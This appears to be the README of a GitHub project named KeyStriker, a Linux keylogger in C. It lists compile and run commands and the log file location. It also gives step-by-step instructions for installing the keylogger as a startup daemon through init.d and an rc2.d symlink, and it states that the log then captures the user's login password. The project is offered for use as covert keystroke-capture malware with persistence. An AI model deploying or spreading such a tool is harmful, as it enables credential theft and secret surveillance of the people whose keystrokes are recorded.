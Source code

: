 # Keyloger-KeyStriker
A linux keyloger with the possibility to launch it at startup.

Compile the source with code blocks IDE, codeblocks must be in root -> sudo codeblocks in a terminal; or from src folder and linux command line : gcc main.c keylogger.c utils.c -o KeyStriker

Then for launch the keyloger use the command : sudo ./KeyStriker

The log keys are in /var/log/KeyStriker.log

For see at any time if the keyloger is running use the command : ps -aux | grep KeyStriker, if you see a line like this :

root 6727 0.0 0.0 4380 76 ? Ss 03:26 0:00 ./KeyStriker

The keylogger is running.

For stop the keyloger use the command : sudo killall KeyStriker or click F12 for go out properly of the program.

For laucnh the programm at startup follow this steps :

- copy the KeyStriker binarie in /usr/bin/ and /usr/sbin/ with the command :  sudo cp KeyStriker /usr/bin/ && sudo cp KeyStriker /usr/sbin/

- copy the script called daemon_launcher.sh in /etc/init.d/ with the following command : sudo cp daemon_launcher.sh /etc/init.d

- make a symbolic link with this command :  sudo ln -s /etc/init.d/daemon_launcher.sh /etc/rc2.d/S88daemon_launcher.sh

- in script folder launch the script called startup.sh

You 're done, reboot the machine and you will see in /var/log/KeyStriker.log your user password you entered for open the linux session wish mean the daemon was running at startup.Then the keylopgger run in background and keep logging all key striked.

For stop the program at startup follow this only step :

- run the script in script folder called delete_startup.sh with the command :  sudo ./delete_startup.sh

You 're done.

Thanks.
